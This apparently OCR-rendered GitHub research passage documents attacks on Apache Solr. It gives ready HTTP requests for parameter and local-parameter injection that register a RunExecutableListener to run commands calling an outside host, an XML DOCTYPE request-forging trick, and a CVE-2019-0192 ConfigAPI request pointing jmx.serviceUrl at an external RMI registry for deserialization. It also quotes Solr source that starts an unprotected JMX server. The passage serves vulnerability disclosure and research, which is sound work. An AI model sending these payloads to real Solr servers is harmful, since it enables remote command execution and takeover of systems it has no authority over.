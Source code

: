 Exploit via Solr Parameters Injection:

`GET /solr/db/select?q=xxx&shards=localhost:8983/solr/db/config%23&stream.body={"add-listener":{"event":"postCommit","name":"newlistener","class":"solr.RunExecutableListener","exe":"nslookup","dir":"/usr/bin/","args":["solrx.x.artsploit.com"]}}&isShard=true`

`GET /solr/db/select?q=xxx&shards=localhost:8983/solr/db/update%23&commit=true`

Exploit via Solr Local Parameters Injection:

`GET /solr/db/select?q={!xmlparser+v%3d'<!DOCTYPE+a+SYSTEM+"http%3a//localhost%3a8983/solr/db/select%3fq%3dxxx%26qt%3d/solr/db/config%3fstream.body%3d{"add-listener"%3a{"event"%3a"postCommit","name"%3a"newlistener","class"%3a"solr.RunExecutableListener","exe"%3a"nslookup","dir"%3a"/usr/bin/","args"%3a["solrx.x.artsploit.com"]}}%26shards%3dlocalhost%3a8983/"><a></a>'}`

`GET /solr/db/select?q={!xmlparser+v='<!DOCTYPE+a+SYSTEM+"http://localhost:8983/solr/db/update?commit=true"><a></a>'}`

For the next exploits we omit the payload strings for "Solr Parameter Injection" and "Solr Parameter Injection", as the logic how they created is the same (using "xmlparser" type in conjunction with "qt" and "stream.body" parameters)

### 2. \[CVE-2019-0192] Deserialization of untrusted data via jmx.serviceUrl 
**Target Solr version:** >5? (not sure when config API is introduced) - <7. In version 7 JMX is just ignored.<br>
**Requirements:** Out of band connections from Solr are not firewalled; suitable deserialization gadget exists in the target classpath OR network access to an arbitrary port of the JMX server (this will be opened on the machine where Solr is running during exploitation).

ConfigAPI allows to set 'jmx.serviceUrl' property that will create a new JMX MBeans server and register it on the specified RMI/LDAP registry.  

```http request
POST /solr/db/config HTTP/1.1
Host: localhost:8983
Content-Type: application/json
Content-Length: 112

{
  "set-property": { 
    "jmx.serviceUrl": "service:jmx:rmi:///jndi/rmi://artsploit.com:1617/jmxrmi"
  }
}
```

Under the hood, It triggers a JNDI call with the 'bind' operation to the target RMI/LDAP/CORBA server. Unlike JNDI 'lookup' operation, remote classloading is not supported for 'bind' operations, so we cannot just return a reference with an external codebase.
At the same time, it creates a new unprotected JMX server via [JMXConnectorServer.start()](https://github.com/apache/lucene-solr/blob/master/solr/core/src/java/org/apache/solr/util/JmxUtil.java#L48):

```java
public static MBeanServer findMBeanServerForServiceUrl(String serviceUrl) throws IOException {
  if (serviceUrl == null) {
    return null;
  }

  MBeanServer server = MBeanServerFactory.newMBeanServer();
  JMXConnectorServer connector = JMXConnectorServerFactory
      .newJMXConnectorServer(new JMXServiceURL(serviceUrl), null, server);
  connector.start();

  return server;
}
```
